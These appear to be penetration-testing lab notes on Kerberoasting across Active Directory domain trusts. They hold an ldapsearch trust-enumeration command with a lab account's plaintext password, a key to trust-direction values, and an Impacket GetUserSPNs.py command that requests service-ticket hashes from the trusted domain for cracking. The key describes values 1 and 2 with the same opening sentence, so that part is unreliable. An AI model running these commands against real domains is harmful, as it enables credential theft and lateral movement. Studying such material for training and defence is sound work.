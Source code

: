 Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction.

Example: `INLANEFREIGHT.LOCAL` --> `FREIGHTLOGISTICS.LOCAL`

#### Enumerate

We still need to enumerate the trust relationship between the two domains:

```bash
ldapsearch -x -H ldap://172.16.5.5 -D "forend@INLANEFREIGHT.LOCAL" -w Klmcargo2 -b "CN=System,DC=INLANEFREIGHT,DC=LOCAL" "(objectClass=trustedDomain)" | grep -E 'trustedDomain|distinguishedName|objectSID|trustDirection'
# filter: (objectClass=trustedDomain)
objectClass: trustedDomain
distinguishedName: CN=LOGISTICS.INLANEFREIGHT.LOCAL,CN=System,DC=INLANEFREIGHT
trustDirection: 3
objectClass: trustedDomain
distinguishedName: CN=FREIGHTLOGISTICS.LOCAL,CN=System,DC=INLANEFREIGHT,DC=LOC
trustDirection: 3
```
#### Trust Direction Values:

- **1** = **One-way inbound**: This means the source domain trusts the target domain, but not vice versa. Users in the target domain can access resources in the source domain, but not the other way around.
- **2** = **One-way outbound**: This means the source domain trusts the target domain, but not vice versa. Users in the source domain can access resources in the target domain, but not the other way around.
- **3** = **Bidirectional**: This indicates a two-way trust, meaning both domains trust each other, and users can access resources in both domains.

Kerberosting across domain:

```bash
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/forend:Klmcargo2 -request -outputfile kerb.hashcat
```

